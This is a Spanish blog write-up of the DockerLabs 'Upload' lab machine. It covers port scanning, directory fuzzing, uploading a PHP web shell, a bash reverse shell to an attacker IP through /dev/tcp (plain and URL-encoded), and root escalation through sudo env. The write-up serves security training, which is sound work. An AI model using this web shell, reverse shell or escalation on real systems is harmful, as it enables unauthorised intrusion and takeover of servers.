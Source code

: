 ```yaml
---
layout: post
title: Maquina Upload
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/upload-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  Web Fuzzing
  -  Binarios UNIX
  -  Arbitrary File Upload
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** Upload
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** Easy

#### **Configuración Entorno**
Lo primero que hacemos es descargarnos los archivos de dockerlabs de la maquina.
![Image 1](https://aanton94.github.io/blog/img/Upload/Img1.png)

Una vez descargado ejecutamos el siguiente script:
![Image 2](https://aanton94.github.io/blog/img/Upload/Img2.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y,
una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de tener conocimientos de docker.

**upload.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la maquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 3](https://aanton94.github.io/blog/img/Upload/Img3.png)

Podemos observar que el ttl es de 64, por tanto, como norma general podemos afirmas que se trata de una maquina linux.

Una vez comprobada la conectividad, inciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:

```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rapido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la version del servicio abirto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)

![Image 4](https://aanton94.github.io/blog/img/Upload/Img4.png)

Podemos observar que solo cuenta con el puerto 80 abierto, al acceder via web nos encontramos con lo siguiente:
![Image 5](https://aanton94.github.io/blog/img/Upload/Img5.png)

Nos encontramos con un campo que nos permite subir un archivo, por lo tanto, tratamos de subir un fichero de prueba:
![Image 6](https://aanton94.github.io/blog/img/Upload/Img6.png)

Recibimos un mensaje de que el archivo se ha subido correctamente. A continuación, realizaremos fuzzing de la web para poder localizar posibles directorios. Utilizaremos la herramienta de fuzzing `gobuster`{:.info} aunque podríamos utilizar cualquier otra de este estilo, para ello utilizaremos un diccionario de directorios comunes.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```
![Image 7](https://aanton94.github.io/blog/img/Upload/Img7.png)

Al finalizar el fuzzing encontramos el directorio uploads, tratamos de acceder y podemos ver que en este directorio se almaceno el fichero que subimos anteriormente.
![Image 8](https://aanton94.github.io/blog/img/Upload/Img8.png)

Comprobamos que podemos abrir el fichero en el navegador.
![Image 9](https://aanton94.github.io/blog/img/Upload/Img9.png)

Por tanto, al tener una ruta donde podemos subir y abrir ficheros, intentaremos subir un fichero con codigo php malicioso para tratar de lograr ejecutar comandos de forma remota.

#### **Explotación**

Para la explotación vamos a crear un archivo php llamado cmd.php con el siguiente código:

```php
<?php
	system($_GET['cmd']);
?>
```

Este script PHP ejecuta un comando del sistema recibido a través de la variable GET llamada 'cmd'. Por lo tanto, puede ser una puerta de entrada para ejecutar comandos maliciosos si no se filtran adecuadamente las entradas del usuario.

Subimos el fichero cmd.php, nos dirigimos al directorio uploads y vemos que al leer el fichero el servidor ejecuta el codigo php, utilizamos la variable cmd definida en el script para ejecurar el comando `whoami`{:.info}.
![Image 10](https://aanton94.github.io/blog/img/Upload/Img10.png)

Y efectivamente, nos devuelve que es usuario es **www-data**, por lo tanto, confirmamos que tenemos ejecución remota de comandos, abusando de esta brecha de seguridad podemos intentar abrir una revese shell contra el servidor víctima.

Para ello pondremos nuestra maquina atacante en escucha por el puerto 4444 utilizando netcat:

```bash
nc -lvnp 4444
```
Y ejecutaremos una revese shell a través del script de php cmd.php subido anteriormente.

`http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >& /dev/tcp/192.168.199.131/4444 0>&1"`{:.info}

Al ejecutarlo no nos funciona, por tanto, la volvemos a pasar, pero esta vez aplicando un URL Encode:

`http://172.17.0.2/uploads/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.199.131%2F4444%200%3E%261%22`{:.info}

Y recibimos la reverse shell en el puerto que teníamos en escucha.
![Image 11](https://aanton94.github.io/blog/img/Upload/Img11.png)

Una vez tenemos la revese shell es hora de realizar el tratamiento de la TTY, ya que nos facilitara el manejo al no matar la shell al ejecutar control+c, control+l, etc.

Para ello ejecutamos los siguientes comandos:

```bash
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Una vez realizado comenzaremos con la escalada de privilegios, lo primero que hacemos siempre es revisar que binarios puede ejecutar nuestro usuario como `root`{:.error}, para ello ejecutamos `sudo -l`{:.info}.
![Image 12](https://aanton94.github.io/blog/img/Upload/Img12.png)

Vemos que podemos ejecutar el binario `/usr/bin/env`{:.info} como usuario `root`{:.error}, sin necesidad de conocer su contraseña. Para explotarlo podemos utilizar la web [http://https://gtfobins.github.io/](http://https://gtfobins.github.io/) y buscar la forma de explotar dicho binario. En este caso simplemente tenemos que ejecutar `sudo env /bin/sh`{:.info}
![Image 13](https://aanton94.github.io/blog/img/Upload/Img13.png)

Y efectivamente, somo `root`{:.error}, por lo tanto, `¡¡¡maquina vulnerada!!!`{:.success} :smirk::smirk::smirk:

#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.
![Image 14](https://aanton94.github.io/blog/img/Upload/Img14.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}
